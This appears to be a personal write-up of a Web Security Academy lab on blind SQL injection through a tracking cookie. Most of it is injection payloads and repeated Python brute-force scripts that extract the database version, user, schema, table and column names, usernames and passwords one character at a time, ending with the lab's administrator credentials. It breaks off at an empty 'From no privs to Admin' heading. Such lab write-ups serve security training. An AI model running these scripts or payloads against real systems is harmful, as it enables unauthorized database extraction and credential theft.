# Lab: Blind SQL injection with conditional responses

URL: https://0a5c00710472f86180d2623100ca00f5.web-security-academy.net/

## Sitemap:

URL: `https://0a5c00710472f86180d2623100ca00f5.web-security-academy.net/`

URL: `https://0a5c00710472f86180d2623100ca00f5.web-security-academy.net/filter?category=Gifts`

URL: `https://0a5c00710472f86180d2623100ca00f5.web-security-academy.net/product?productId=18`

## Identification:

URL: `https://0a5c00710472f86180d2623100ca00f5.web-security-academy.net/`

We notice that the "" Cookie is vulnerable to Blind SQLi:

<br>

Normal Use:



<br>

State that evals to true:



<br>

State that evals to false:



<br>

## Exploitation:

### Preparation:

Payload:

```
Cookie: TrackingId=nqI5DcDMbLGbNVq4'+and+'1'+like('1')--+-; session=KTNmJqoBdrpoxy4OVO4rfI2lnUC3U419
```

Payload1:

```
Cookie: TrackingId=83x3p3bHO10DQx0Y'+and+'1'=(select+'1'+where+1=1)--+-; session=qL6kr7fHjwWhSnBSMozpXfXXKcQ3VbqK
```

### Get_version:

```
The version is: PostgreSQL+12.14+(Ubuntu+12.14-0ubuntu0.20.04.1)+on+x86_64-pc-linux-gnu,+compiled+by+gcc+(Ubuntu+9.4.0-1ubuntu1_20.04.1)+9.4.0,+64-bit
```



```python
#!/usr/bin/python3
##
import requests
import pwn
import re
import string
##
#
def pwn(URL,sess,cookie,Payload):
    value=""
    chars=string.ascii_uppercase+string.ascii_lowercase+string.digits+string.punctuation
    while True:
        tmp=value
        for X in chars:
            cookies=dict({"TrackingId":f"{cookie}{Payload[0]}{value}{X}{Payload[1]}"})
            r=sess.get(URL,cookies=cookies)
            print(f"{X}\r",end="")
            if "Welc" in r.text:
                print(X)
                value+=X
                break
        if tmp==value:
            break
    return value
##
def main(URL):
    version=""
    Payload=["'+and+version()+like('", "%25')--+-"]
    sess=requests.Session()
    r=sess.get(URL)
    cookie=r.cookies.get_dict()["TrackingId"]
    print(f"Initial TrackingId: {cookie}")
    #
    version=pwn(URL,sess,cookie,Payload)
    print(f"The version is: {version}")
##
main("https://0a230044036c330b828f92a700420062.web-security-academy.net/")
```

### Get_user:

```
The user is: peter
```



```python
#!/usr/bin/python3
##
import requests
import pwn
import re
import string
##
#
def pwn(URL,sess,cookie,Payload):
    value=""
    chars=string.ascii_uppercase+string.ascii_lowercase+string.digits+string.punctuation
    print(f"Charset: {chars}")
    while True:
        tmp=value
        for X in chars:
            print(f"{X}\r",end="")
            cookies=dict({"TrackingId":f"{cookie}{Payload[0]}{value}{X}{Payload[1]}"})
            r=sess.get(URL,cookies=cookies)
            if "Welc" in r.text:
                value+=X
                print(X)
                break
        if tmp==value:
            break
    return value
##
def main(URL):
    version=""
    Payload=["'+and+USER+like('","%25')--+-"]
    sess=requests.Session()
    r=sess.get(URL)
    cookie=r.cookies.get_dict()["TrackingId"]
    print(f"Initial TrackingId: {cookie}")
    #
    user=pwn(URL,sess,cookie,Payload)
    print(f"The user is: {user}")
##
main("https://0a230044036c330b828f92a700420062.web-security-academy.net/")
```

### Get_database:

```
The database is: academy_labs
```



```python
#!/usr/bin/python3
##
import requests
import pwn
import re
import string
##
#
def pwn(URL,sess,cookie,Payload):
    value=""
    chars=string.ascii_uppercase+string.ascii_lowercase+string.digits+string.punctuation
    print(f"Charset: {chars}")
    while True:
        tmp=value
        for X in chars:
            print(f"{X}\r",end="")
            cookies=dict({"TrackingId":f"{cookie}{Payload[0]}{value}{X}{Payload[1]}"})
            r=sess.get(URL,cookies=cookies)
            if "Welc" in r.text:
                value+=X
                print(X)
                break
        if tmp==value:
            break
    return value
##
def main(URL):
    version=""
    Payload=["'+and+current_database()+like('","%25')--+-"]
    sess=requests.Session()
    r=sess.get(URL)
    cookie=r.cookies.get_dict()["TrackingId"]
    print(f"Initial TrackingId: {cookie}")
    #
    user=pwn(URL,sess,cookie,Payload)
    print(f"The database is: {user}")
##
main("https://0a8000b5034238e682a639b000610005.web-security-academy.net/")
```

### Get_schema:

```
The schema is: public
```



```python
#!/usr/bin/python3
##
import requests
import pwn
import re
import string
##
#
def pwn(URL,sess,cookie,Payload):
    value=""
    chars=string.ascii_uppercase+string.ascii_lowercase+string.digits+string.punctuation
    print(f"Charset: {chars}")
    while True:
        tmp=value
        for X in chars:
            print(f"{X}\r",end="")
            cookies=dict({"TrackingId":f"{cookie}{Payload[0]}{value}{X}{Payload[1]}"})
            r=sess.get(URL,cookies=cookies)
            if "Welc" in r.text:
                value+=X
                print(X)
                break
        if tmp==value:
            break
    return value
##
def main(URL):
    version=""
    Payload=["'+and+current_schema()+like('","%25')--+-"]
    sess=requests.Session()
    r=sess.get(URL)
    cookie=r.cookies.get_dict()["TrackingId"]
    print(f"Initial TrackingId: {cookie}")
    #
    user=pwn(URL,sess,cookie,Payload)
    print(f"The schema is: {user}")
##
main("https://0a8000b5034238e682a639b000610005.web-security-academy.net/")
```

### Get_table:

```
The tables are:
['tracking', 'users']
```




```python
#!/usr/bin/python3
##
import requests
import pwn
import re
import string
##
#
def pwn(URL,sess,cookie,Payload,start):
    value=""
    chars=string.ascii_uppercase+string.ascii_lowercase+string.digits+string.punctuation
    print(f"Charset: {chars}")
    cols=[]
    first=True
    start_index=chars.index(start)
    new_set=chars[start_index::]
    while True:
        tmp=value
        if first:
            first=False
            for X in new_set:
                print(f"{X}\r",end="")
                cookies=dict({"TrackingId":f"{cookie}{Payload[0]}{value}{X}{Payload[1]}"})
                r=sess.get(URL,cookies=cookies)
                if "Welc" in r.text:
                    value+=X
                    print(X)
                    break
        else:
            for X in chars:
                print(f"{X}\r",end="")
                cookies=dict({"TrackingId":f"{cookie}{Payload[0]}{value}{X}{Payload[1]}"})
                r=sess.get(URL,cookies=cookies)
                if "Welc" in r.text:
                    value+=X
                    print(X)
                    break
        if tmp==value:
            if value !="":
                cols.append(value)
                start=chr( ord(value[0])+1)
                try:
                    tmp1=pwn(URL,sess,cookie,Payload,start)
                finally:
                    cols+=tmp1
                return cols
            else:
                return cols
##
def main(URL):
    version=""
    Payload=["'+and+'1'=(select+'1'+from+information_schema.tables+WHERE+table_schema+%3d+'public'+and+table_name+like('","%25'))--+-"]
    sess=requests.Session()
    r=sess.get(URL)
    cookie=r.cookies.get_dict()["TrackingId"]
    print(f"Initial TrackingId: {cookie}")
    #
    user=pwn(URL,sess,cookie,Payload,'a')
    print(f"The tables are:\n{user}")
##
main("https://0af500520314357282e5018400490072.web-security-academy.net/")
```

### Get_collumns:

```
The collumns are:
['password', 'username']
```



```python
#!/usr/bin/python3
##
import requests
import pwn
import re
import string
##
#
def pwn(URL,sess,cookie,Payload,start):
    value=""
    chars=string.ascii_uppercase+string.ascii_lowercase+string.digits+string.punctuation
    print(f"Charset: {chars}")
    cols=[]
    first=True
    start_index=chars.index(start)
    new_set=chars[start_index::]
    while True:
        tmp=value
        if first:
            first=False
            for X in new_set:
                print(f"{X}\r",end="")
                cookies=dict({"TrackingId":f"{cookie}{Payload[0]}{value}{X}{Payload[1]}"})
                r=sess.get(URL,cookies=cookies)
                if "Welc" in r.text:
                    value+=X
                    print(X)
                    break
        else:
            for X in chars:
                print(f"{X}\r",end="")
                cookies=dict({"TrackingId":f"{cookie}{Payload[0]}{value}{X}{Payload[1]}"})
                r=sess.get(URL,cookies=cookies)
                if "Welc" in r.text:
                    value+=X
                    print(X)
                    break
        if tmp==value:
            if value !="":
                cols.append(value)
                start=chr( ord(value[0])+1)
                try:
                    tmp1=pwn(URL,sess,cookie,Payload,start)
                finally:
                    cols+=tmp1
                return cols
            else:
                return cols
##
def main(URL):
    version=""
    Payload=["'+and+'1'=(select+'1'+from+information_schema.columns+where+table_name%3d'users'+and+COLUMN_NAME+like('","%25'))--+-"]
    sess=requests.Session()
    r=sess.get(URL)
    cookie=r.cookies.get_dict()["TrackingId"]
    print(f"Initial TrackingId: {cookie}")
    #
    user=pwn(URL,sess,cookie,Payload,'a')
    print(f"The collumns are:\n{user}")
##
main("https://0a8000b5034238e682a639b000610005.web-security-academy.net/")
```

### Get_usernames:

```
The usernames are:
['administrator', 'carlos', 'wiener']
```



```python
#!/usr/bin/python3
##
import requests
import pwn
import re
import string
##
#
def pwn(URL,sess,cookie,Payload,start):
    value=""
    chars=string.ascii_uppercase+string.ascii_lowercase+string.digits+string.punctuation
    print(f"Charset: {chars}")
    cols=[]
    first=True
    start_index=chars.index(start)
    new_set=chars[start_index::]
    while True:
        tmp=value
        if first:
            first=False
            for X in new_set:
                print(f"{X}\r",end="")
                cookies=dict({"TrackingId":f"{cookie}{Payload[0]}{value}{X}{Payload[1]}"})
                r=sess.get(URL,cookies=cookies)
                if "Welc" in r.text:
                    value+=X
                    print(X)
                    break
        else:
            for X in chars:
                print(f"{X}\r",end="")
                cookies=dict({"TrackingId":f"{cookie}{Payload[0]}{value}{X}{Payload[1]}"})
                r=sess.get(URL,cookies=cookies)
                if "Welc" in r.text:
                    value+=X
                    print(X)
                    break
        if tmp==value:
            if value !="":
                cols.append(value)
                start=chr( ord(value[0])+1)
                try:
                    tmp1=pwn(URL,sess,cookie,Payload,start)
                finally:
                    cols+=tmp1
                return cols
            else:
                return cols
##
def main(URL):
    version=""
    Payload=["'+and+'1'=(select+'1'+from+users+where+username+like('","%25'))--+-"]
    sess=requests.Session()
    r=sess.get(URL)
    cookie=r.cookies.get_dict()["TrackingId"]
    print(f"Initial TrackingId: {cookie}")
    #
    user=pwn(URL,sess,cookie,Payload,'a')
    print(f"The usernames are:\n{user}")
##
main("https://0a8000b5034238e682a639b000610005.web-security-academy.net/")
```

### Get_passwords:

```
The passwords are:
['b2009q90sn8oum227wzw', '2s0jq0ygizwi18hoey0s', '6yaj04tqlwshnel8shir']
```



```python
#!/usr/bin/python3
##
import requests
import pwn
import re
import string
##
#
def pwn(URL,sess,cookie,Payload,start):
    value=""
    chars=string.ascii_uppercase+string.ascii_lowercase+string.digits+string.punctuation
    print(f"Charset: {chars}")
    cols=[]
    first=True
    start_index=chars.index(start)
    new_set=chars[start_index::]
    while True:
        tmp=value
        if first:
            first=False
            for X in new_set:
                print(f"{X}\r",end="")
                cookies=dict({"TrackingId":f"{cookie}{Payload[0]}{value}{X}{Payload[1]}"})
                r=sess.get(URL,cookies=cookies)
                if "Welc" in r.text:
                    value+=X
                    print(X)
                    break
        else:
            for X in chars:
                print(f"{X}\r",end="")
                cookies=dict({"TrackingId":f"{cookie}{Payload[0]}{value}{X}{Payload[1]}"})
                r=sess.get(URL,cookies=cookies)
                if "Welc" in r.text:
                    value+=X
                    print(X)
                    break
        if tmp==value:
            if value !="":
                cols.append(value)
                start=chr( ord(value[0])+1)
                try:
                    tmp1=pwn(URL,sess,cookie,Payload,start)
                finally:
                    cols+=tmp1
                return cols
            else:
                return cols
##
def main(URL):
    version=""
    Payload=["'+and+'1'=(select+'1'+from+users+where+password+like('","%25'))--+-"]
    sess=requests.Session()
    r=sess.get(URL)
    cookie=r.cookies.get_dict()["TrackingId"]
    print(f"Initial TrackingId: {cookie}")
    #
    user=pwn(URL,sess,cookie,Payload,'a')
    print(f"The passwords are:\n{user}")
##
main("https://0a8000b5034238e682a639b000610005.web-security-academy.net/")
```

Creds:

```
administrator:2s0jq0ygizwi18hoey0s
```

## From no privs to Admin:


